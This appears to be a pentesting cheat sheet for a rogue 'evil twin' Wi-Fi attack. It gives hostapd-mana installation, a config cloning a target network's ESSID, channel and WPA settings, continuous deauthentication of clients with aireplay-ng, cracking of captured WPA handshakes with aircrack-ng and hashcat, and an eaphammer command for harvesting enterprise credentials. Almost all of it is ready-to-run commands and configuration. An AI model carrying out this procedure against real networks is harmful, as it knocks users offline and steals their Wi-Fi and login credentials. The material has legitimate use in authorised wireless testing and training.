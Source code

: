 ## Rogue Access Point

```text
sudo apt install hostapd-mana
sudo apt-get install libssl-dev
```

### Note - A network card with interface modes "AP mode" is requred or the config will fail
```text
iw list | grep "Supported interface modes" -A 8

        Supported interface modes:
                 * IBSS
                 * managed
                 * AP
                 * AP/VLAN
                 * monitor
                 * mesh point
```

```text
sudo airodump-ng wlan0mon

BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID 
11:22:33:44:55:66  -68       12        1    0   1  130   WPA2 CCMP   PSK  linksys
```

At this point we know the following about our target AP:


It has an ESSID of linksys

It has a BSSID of 11:22:33:44:55:66

It uses WPA2 (TKIP/CCMP) (and probably WPA (TKIP/CCMP))

It uses a auth of PSK

It runs on channel 1


#### Create Configuration file
```text
cat linksys-mana.conf

interface=wlan0
ssid=linksys
channel=1
hw_mode=g
ieee80211n=1
wpa=3
wpa_key_mgmt=WPA-PSK
wpa_passphrase=ANYPASSWORD
wpa_pairwise=TKIP CCMP
rsn_pairwise=TKIP CCMP
mana_wpaout=/home/<name>/linksys.hccapx
```
We need to specify the band to 2.4 GHz by setting the hw_mode parameter to the letter "g". If the network was running on 5 GHz, we would set hw_mode to "a".

We will set the wpa parameter to the integer "3" to enable both WPA and WPA2 (setting this parameter to "1" enables only WPA and setting the value to "2" enables only WPA2).


#### Start Access Point
```text

sudo systemctl disable dnsmasq && sudo systemctl disable hostapd
sudo rfkill unblock wifi
sudo rfkill unblock all
sudo airmon-ng check kill
sudo ip link set dev wlan0 up
sudo ifconfig wlan0 up
sudo hostapd-mana linksys-mana.conf
```

Wait for a capture of a WPA/2 handshake in output.

##### De-Auth if needed
```text
sudo aireplay-ng -0 0 -a 11:22:33:44:55:66 wlan0mon
```

#### Crack!
```text
aircrack-ng linksys.hccapx -e linksys -w /usr/share/john/password.lst

or ...

hcxhash2cap --hccapx=linksys.hccapx -c out.cap
hcxpcapngtool -o hash.hc22000 -E wordlist out.cap
hashcat -m 22000 hash.hc22000 /usr/share/john/password.lst
```

#### eaphammer - alternative
```text
sudo eaphammer --cert-wizard
sudo eaphammer -i wlan0mon --channel 4 --auth wpa-eap --essid linksys --creds
```


https://wiki.gentoo.org/wiki/Hostapd

https://tbhaxor.com/evil-twin-wifi-network-using-hostapd-mana/




